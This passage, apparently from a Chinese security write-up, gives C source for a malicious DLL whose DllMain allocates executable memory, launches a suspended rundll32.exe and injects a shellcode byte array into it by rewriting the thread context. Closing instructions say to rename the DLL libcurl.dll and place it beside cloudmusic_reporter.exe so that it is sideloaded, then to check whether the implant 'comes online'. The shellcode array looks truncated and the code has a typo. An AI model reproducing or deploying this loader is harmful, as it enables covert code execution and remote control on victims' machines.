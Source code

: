     BOOL APIENTRY DllMain( HMODULE hModule,  
                           DWORD  ul_reason_for_call,  
                           LPVOID lpReserved  
                         )  
    {  
        switch (ul_reason_for_call)  
        {  
        case DLL_PROCESS_ATTACH:  
        {  
            uunsigned char hexData[] = "\xe8\x00\x00\x00\x00\x58\x5f\x05\x5b\x03\x00\x00\x68\x8c\x00\x00\x00\x50\x57\x55\x8b\xec\x83\xec\x68\x53\x56\x57\x6a\x22\x68\x64\xfc\xfb\x3c\xe8\x30\x02\x00\x00\x6a\x22\x8b";  
      
    		char* v7A = (char*)VirtualAlloc(0, _countof(hexData), 0x3000u, 0x40u);  
    		memcpy((void*)v7A, hexData, _countof(hexData));  
      
    		struct _PROCESS_INFORMATION ProcessInformation;  
    		struct _STARTUPINFOA StartupInfo;  
    		void* v24;  
    		CONTEXT Context;  
    		DWORD DwWrite = 0;  
    		memset(&StartupInfo, 0, sizeof(StartupInfo));  
    		StartupInfo.cb = 68;  
    		BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);  
    		if (result)  
    		{  
    			Context.ContextFlags = 65539;  
    			GetThreadContext(ProcessInformation.hThread, &Context);  
    			v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, _countof(hexData), 0x1000u, 0x40u);  
    			WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, _countof(hexData), &DwWrite);  
    			Context.Eip = (DWORD)v24;  
    			SetThreadContext(ProcessInformation.hThread, &Context);  
    			ResumeThread(ProcessInformation.hThread);  
    			CloseHandle(ProcessInformation.hThread);  
    			result = CloseHandle(ProcessInformation.hProcess);  
    		}  
      
      
    		TerminateProcess(GetCurrentProcess(), 0);  
        };  
      
        case DLL_THREAD_ATTACH:  
        case DLL_THREAD_DETACH:  
        case DLL_PROCESS_DETACH:  
            break;  
        }  
        return TRUE;  
    }

生成dll文件，并将其重命名为libcurl.dll，与cloudmusic_reporter.exe放在同一文件夹内，双击运行查看是否上线成功。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221026095114.png)
